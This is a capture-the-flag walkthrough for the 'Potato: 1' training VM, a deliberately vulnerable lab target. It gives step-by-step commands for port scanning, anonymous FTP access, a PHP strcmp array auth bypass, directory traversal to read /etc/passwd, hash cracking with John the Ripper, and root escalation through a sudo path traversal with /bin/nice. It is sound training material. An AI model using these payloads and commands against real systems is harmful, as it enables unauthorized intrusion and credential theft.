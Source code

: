# Potato: 1 Walkthrough

## Preparation
1. Download Potato.ova file ([Potato.ova](https://download.vulnhub.com/potato/Potato.ova))

1. Import the OVA file in the VirtualBox

1. Set the network adapter to Host-only Adapter
    * Attached to: **Host-only Adapter**
    ![Host-onlyAdapter](./img/potato_server_network.png)

1. Start the Potato virtual machine
    * Turn on the potato virtual machine from the VirtualBox
    ![StartPotato](./img/potato_server_initial.png)

1. Confirm the IP address of the Potato virtual machine from the attack virtual machine  
    * `sudo netdiscover -i enp0s3 -r 192.168.56.0/24`  
    ![netdiscover](./img/potato_server1.png)  
    ![PotatoIP-Address](./img/potato_server2.png)  
        * 192.168.56.100: DHCP Server
        * **192.168.56.102**: Potato Server

1. Set the Potato IP address to the environment variance  
`export IP=192.168.56.102`  

## Reconnaissance
1. Do portscan using Nmap  
    * `sudo nmap -sC -sV -Pn -p- $IP -oN nmap_result.txt`  
    ![nmap](./img/potato_server3.png)
        * -sC: Scan with default script
        * -sV: Show software name and the version
        * -Pn: Do not confirm communication before port scan (We have already confirmed the Potato IP address.)
        * -p-: Scan all ports (from 0 to 65535 ports)
        * -oN: Output the scan results to the specified file

1. As we see the nmap result, we can attempt to log in with AnonymousFTP.  

## Initial Access
1. Access the FTP service  
    * `ftp $IP 2112`  
    ![FTP-Access](./img/potato_server4.png)
        * Name: anonymous
        * Password: password (empty is OK)

1. Get index.php.bak and welcome.msg files
    * `get index.php.bak`, `get welcome.msg`  
    ![GetFiles](./img/potato_server5.png)

1. Exit FTP service  
Input the `exit`  

1. Confirm the downloaded files  
    * Investigate the "welcome.msg" and confirm the content  -> There is no useful information in this file 
    ![Welcome.msg](./img/potato_server6.png)  
    * Investigate the "index.php.bak" and confirm the content -> the username is fixed to "admin" and the default pass is "potato"  
    ![index.php.bak](./img/potato_server7.png)  
 
1. Since we know the index.php page and the Nmap result shows the 80 port is open, we find accessible files and directories using Gobuster.
    - Set the 80 port URL to the environment variance  
    `export URL="http://$IP:80/"`  
    - Input the following gobuster command  
    `gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt`  
        * dir: Enumerate directories and files
        * -u: Designate target URL
        * -w: Use dictionary file
    - Find /admin directory
    ![admin_directory](./img/potato_server8.png)

1. Access the /admin page using Burp
    - Proxy -> Intercept -> Intercept on -> Open browser -> Enter "http://192.168.56.102/admin" in the browser  
    - Click "Forward" until Login page is shown
    - Enter "admin" in the User and "test" in the Password and click Login button
    - In the "index.php.bak" file, the password is confirmed using the strcmp() function. In the PHP strcmp() function, we designate an array type, and it causes an error. Unfortunately, "NULL == 0" becomes **True** in PHP specification.
    - Change the input password in the Burp  
    Current: `username=admin&password=test`  
    Changed: `username=admin&password[]=test`  
    ![Burp_password](./img/potato_server9.png)  
    - Change to "Intercept off"
    - Go to the dashboard page and access the Logs page  

## Execution
1. Attempt directory traversal in the Logs page
    - Change to "Intercept on"
    - Select log_01.txt (log_02.txt or log_03.txt is OK) and click the "Get the log" button
    - Change the log_01.txxt file directory  
    Current: `file=log_01.txt`  
    Changed: `../../../../../etc/passwd`  
    ![file_directory](./img/potato_server10.png)  
    ![etc_passwd](./img/potato_server11.png)

1. Make /etc/passwd data file using the Cookie pass and curl command
    - Cookie pass is as follows  
    ![Cookie_pass](./img/potato_server12.png)  
    - Curl command is as follows  
    `curl -X POST -b "pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh" -d 'file=../../../../../etc/passwd' "http://192.168.56.102/admin/dashboard.php?page=log" | tr '\0' '\n' | cat > etc_passwd.txt`  
        * -X: Designate HTTP method
        * -b: Send Cookie
        * -d: Send form as POST request
        * tr '\0' '\n': Replace null with carriage return
        * cat > etc_passwd.txt: Output the command result in the etc_passwd.txt

1. Analyze the etc_passwd.txt
    - Extract login-enabled users using the following command  
    `cat etc_passed.txt | grep -P 'sh$'`  
    ![Login-enabled-users](./img/potato_server13.png)
        * grep -P 'sh$' is used to search for lines in a file that end with the string sh
        * Login-enabled users have "bash" or "sh" in the 7th field
        * There are "root", "floarianges", and "webadmin" users
    - Extract users who have password hash from the etc_passed.txt file  
    `cat etc_passwd.txt | grep -P 'sh$' | grep webadmin > webadmin_hash.txt`  
    - Decrypt password hash using John the Ripper  
    `john webadmin_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`  
    ![john](./img/potato_server14.png)
        * webadmin password: **dragon**  

## Credential Access for general user
1. SSH access
    - From the Nmap result, as the SSH port is open, we attempt to access SSH
    ![SSH-access](./img/potato_server15.png)
        * password: **dragon**
    - Confirm the home directory and access the user.txt file
    ![General-user-text](./img/potato_server16.png)  

## Privilege Escalation
1. Access to the other user home directory
    * While analyzing password hash, we know there is a "florianges" user
    * Access to the "home/floarianges" directory and seek attackable files  
    ![floarianges-home](./img/potato_server17.png)  
    * There is a suspicious "sudo_as_admin_successful" file but the file size is 0 -> Think other approaches

1. Confirm sudo setting  
    * Check webadmin's permission using `sudo-l`
    * password: **dragon**  
    ![sudo-webadmin](./img/potato_server18.png)  
    * webadmin can execute "/bin/nice" program (x has been granted)
    * We find that "/bin/nice" is used to modify the scheduling priority from the man command
    * There is no read permission for the "/notes/clear.sh" and "/notes/id.sh" files  

1. Investigate the "clear.sh" and "id.sh" files' behaviors  
    * `sudo /bin/nice /notes/clear.sh` -> The display is cleared
    * `sudo /bin/nice /notes/id.sh` -> The "id.sh" is implied to be executed with root permission and webadmin may gain root permission
    ![notes-id.sh](./img/potato_server19.png)  

1. Escalation
    * Excecute /bin/bash using nice command  
    **`sudo /bin/nice /notes/../bin/bash`**  
    ![Escalation](./img/potato_server20.png)  
    * Return root permission's prompt (# is displayed)  

## Credential Access for root user
1. Access the "root.txt" file of root user
    * Go to the root directory and access the "root.txt" file  
    ![root.txt](./img/potato_server21.png)